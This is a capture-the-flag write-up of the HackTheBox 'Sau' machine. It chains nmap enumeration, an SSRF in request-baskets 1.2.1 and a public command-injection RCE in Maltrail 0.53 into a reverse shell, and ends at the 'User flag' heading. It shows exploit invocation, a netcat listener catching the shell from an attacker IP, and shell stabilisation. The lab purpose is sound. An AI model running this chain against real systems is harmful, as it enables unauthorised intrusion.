




# Sau
## Enumeration
### Port Scanning
The machine got 4 open ports. 22, 80, 8338 and 55555:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ nmap $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 17:45 EDT
Nmap scan report for 10.10.11.224
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1.75 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ nmap -p- -oN nmap/all_ports $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 17:45 EDT
Nmap scan report for 10.10.11.224
Host is up (0.043s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 11.89 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ nmap -sV -sC -oN nmap/nmap $IP                                                                                                                   130 ⨯
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 17:46 EDT
Nmap scan report for 10.10.11.224
Host is up (0.045s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 29 Oct 2023 21:47:24 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 29 Oct 2023 21:46:57 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 29 Oct 2023 21:46:57 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=10/29%Time=653ED2CE%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2029\x20Oct\x2
SF:02023\x2021:46:57\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2029\x20Oct\x2
SF:02023\x2021:46:57\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Sun,\x2029\x20Oct\x202023\x2021:47:24\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 95.06 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ 
```
### Port 80
Port 80 has the state filtered. There is no response with a normal request.

### Port 8338
The port is filtered. At the moment we can't find out the protocol or get any response:
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -p8338 $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 17:47 EDT
Nmap scan report for 10.10.11.224
Host is up (0.031s latency).

PORT     STATE    SERVICE VERSION
8338/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$
```
### Port 55555
This port seems to run some web service:
```
┌──(kali㉿kali)-[~]
└─$ nmap -sV -sC -p55555 $IP
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 17:48 EDT
Nmap scan report for 10.10.11.224
Host is up (0.031s latency).

PORT      STATE SERVICE VERSION
55555/tcp open  unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 29 Oct 2023 21:48:42 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 29 Oct 2023 21:48:15 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 29 Oct 2023 21:48:16 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.94%I=7%D=10/29%Time=653ED31D%P=x86_64-pc-linux-gnu%r(
SF:GetRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;
SF:\x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2029\x20Oct\x2
SF:02023\x2021:48:15\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/
SF:web\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\
SF:x20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x20
SF:200\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2029\x20Oct\x2
SF:02023\x2021:48:16\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPReques
SF:t,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain
SF:;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request
SF:")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20te
SF:xt/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x2
SF:0Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCo
SF:ntent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n
SF:\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400
SF:\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n
SF:Connection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\
SF:nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Option
SF:s:\x20nosniff\r\nDate:\x20Sun,\x2029\x20Oct\x202023\x2021:48:42\x20GMT\
SF:r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20na
SF:me\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$
SF:\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type
SF::\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x2
SF:0Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request");

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 91.03 seconds
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

The webserver seems to be a bit more unusual:
```
┌──(kali㉿kali)-[~]
└─$ whatweb 10.10.11.224:55555                                 
http://10.10.11.224:55555 [302 Found] Country[RESERVED][ZZ], IP[10.10.11.224], RedirectLocation[/web]
http://10.10.11.224:55555/web [200 OK] Bootstrap[3.3.7], Country[RESERVED][ZZ], HTML5, IP[10.10.11.224], JQuery[3.2.1], PasswordField, Script, Title[Request Baskets]
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```


#### HTTP
A http request redirect to a `/web` directory on the system:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ curl 10.10.11.224:55555
<a href="/web">Found</a>.

                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ curl 10.10.11.224:55555/web
<!DOCTYPE html>
<html>
<head lang="en">

[...]
```

The website shows the following page:


It seems like a webhook service. If we create a hook and `curl` it, we can see the request in the overview:


#### Public exploits
At the bottom of the main page is the used software and version noted: [request-baskets](https://github.com/darklynx/request-baskets) Version 1.2.1

This version has a public SSRF vulnerability:
```
┌──(kali㉿kali)-[~]
└─$ searchsploit request baskets 
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Request-Baskets v1.2.1 - Server-side request forgery (SSRF)                                                              | python/webapps/51675.sh
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ 
```

A Server-Side Request Forgery (SSRF) vulnerability can be used to create a request on the server to another system or service. This includes also internal resources on the system itself or in the network that is usual not accessible for the attacker.

As we remember from the `nmap` scan, there are two filtered ports (80 and 8338). Those could be a target.

#### Directory enumeration
The enumeration doesn't reveal something interesting:
```
┌──(kali㉿kali)-[~]
└─$ feroxbuster --url http://10.10.11.224:55555/web --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt -C 404

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.224:55555/web
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET      846l     2197w        -c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
302      GET        2l        2w       27c http://10.10.11.224:55555/ => http://10.10.11.224:55555/web
200      GET      360l      928w    13021c http://10.10.11.224:55555/web/baskets
401      GET        0l        0w        0c http://10.10.11.224:55555/api/baskets
200      GET      230l      606w     8700c http://10.10.11.224:55555/web
400      GET        1l        7w       57c http://10.10.11.224:55555/web/@
400      GET        1l        7w       57c http://10.10.11.224:55555/web/Documents%20and%20Settings
400      GET        1l        7w       57c http://10.10.11.224:55555/web/Program%20Files
301      GET        2l        3w       43c http://10.10.11.224:55555/web/api/ => http://10.10.11.224:55555/web/api
301      GET        2l        3w       47c http://10.10.11.224:55555/web/cgi-bin/ => http://10.10.11.224:55555/web/cgi-bin
400      GET        1l        7w       57c http://10.10.11.224:55555/web/lost+found
400      GET        1l        7w       57c http://10.10.11.224:55555/web/reports%20list
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~adm
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~admin
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~lp
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~webmaster
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~mail
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~administrator
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~nobody
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~amanda
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~operator
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~apache
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~root
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~bin
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~sys
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~ftp
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~sysadm
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~guest
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~sysadmin
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~http
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~httpd
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~log
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~test
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~logs
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~user
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~tmp
400      GET        1l        7w       57c http://10.10.11.224:55555/web/~www
[####################] - 14s     4737/4737    0s      found:35      errors:0      
[####################] - 13s     4724/4724    354/s   http://10.10.11.224:55555/web/                                                                                                                                                                                                                                  
┌──(kali㉿kali)-[~]
└─$ 
```

## SSRF
The exploit `python/webapps/51675.sh` uses the API of request-baskets to create a basket with the following settings: 
```json
{
    "forward_url": "TARGET_URL",
    "proxy_response": true,
    "insecure_tls": false,
    "expand_path": true,
    "capacity": 250
}
```

For some reason I failed to create a basket through the API. But you can also set those options via the interface:


Note that we set the forward URL to `http://localhost/` to set the target onto the filtered port 80 on the local system.

The vulnerability now ensures that any request to the Basket URL `http://10.10.11.224:55555/v0jwak7` is forwarded to the Forward URL `http://localhost/` by the system. This cannot apparently be addressed from the outside and is now addressed via the local interface.

This means that when we address the basket, we can access the filtered web server, since the request for the web server is no longer coming from the outside:


## Maltrail
The local web service runs an application called Maltrail in the version 0.53. A quick research reveals that this version got a RCE vulnerability:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ searchsploit maltrail                                                                                                                            130 ⨯
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                           |  Path
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Maltrail v0.53 - Unauthenticated Remote Code Execution (RCE)                                                             | python/webapps/51676.py
------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
                                                                                                                                                           
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ 
```

Explanation of the exploit ([source](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)):

_The `subprocess.check_output` function in `mailtrail/core/http.py` contains a command injection vulnerability in the `params.get("username")` parameter._

_An attacker can exploit this vulnerability by injecting arbitrary OS commands into the username parameter. The injected commands will be executed with the privileges of the running process. This vulnerability can be exploited remotely without authentication._

This leads to the fact that we can simply use a `;` to end the username input and make the program interpret the following as new command.

The exploit uses this and executes a reverse shell on the target system.

### RCE
If we start a listener and execute the reverse shell we can catch it:
```
┌──(kali㉿kali)-[~/Desktop/hackthebox/sau]
└─$ python 51676.py 10.10.16.91 8081 http://10.10.11.224:55555/v0jwak7
Running exploit on http://10.10.11.224:55555/v0jwak7/login


```
```
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 8081
Listening on 0.0.0.0 8081
Connection received on 10.10.11.224 52044
$ ls -al 
ls -al 
total 204
drwxr-xr-x 9 root root  4096 Jun 19 09:41 .
drwxr-xr-x 3 root root  4096 Jun 19 09:41 ..
-rw-rw-r-- 1 root root   179 Jan 31  2023 .gitattributes
-rw-rw-r-- 1 root root    13 Jan 31  2023 .gitignore
-rw-rw-r-- 1 root root  6418 Jan 31  2023 CHANGELOG
-rw-rw-r-- 1 root root   711 Jan 31  2023 CITATION.cff
-rw-rw-r-- 1 root root  1131 Jan 31  2023 LICENSE
-rw-rw-r-- 1 root root 42844 Jan 31  2023 README.md
drwxrwxr-x 2 root root  4096 Jun 19 09:41 core
drwxrwxr-x 2 root root  4096 Jun 19 09:41 docker
-rw-r--r-- 1 root root  7205 Apr 15  2023 h
drwxrwxr-x 5 root root  4096 Jun 19 09:41 html
-rw-rw-r-- 1 root root   437 Jan 31  2023 maltrail-sensor.service
-rw-rw-r-- 1 root root   430 Jan 31  2023 maltrail-server.service
-rw-rw-r-- 1 root root  5810 Jan 31  2023 maltrail.conf
drwxrwxr-x 2 root root  4096 Jun 19 09:41 misc
drwxrwxr-x 2 root root  4096 Jun 19 09:41 plugins
-rw-rw-r-- 1 root root     9 Jan 31  2023 requirements.txt
-rwxrwxr-x 1 root root 63782 Jan 31  2023 sensor.py
-rwxrwxr-x 1 root root  5101 Jan 31  2023 server.py
drwxrwxr-x 4 root root  4096 Jun 19 09:41 thirdparty
drwxrwxr-x 5 root root  4096 Jun 19 09:41 trails
$ 
```

## System Enumeration
First, we stabilize our shell:
```
$ python --version
python --version
/bin/sh: 5: python: not found
$ python3 --version
python3 --version
Python 3.8.10
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -lnvp 8081
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ stty size                                                                                                                                    148 ⨯ 1 ⚙
83 155
                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg                                                                                                                                  1 ⚙
[1]  + continued  nc -lnvp 8081

puma@sau:/opt/maltrail$ 
puma@sau:/opt/maltrail$ export TERM=xterm-256color
puma@sau:/opt/maltrail$ stty rows 83 columns 155
puma@sau:/opt/maltrail$ 
```

### User flag
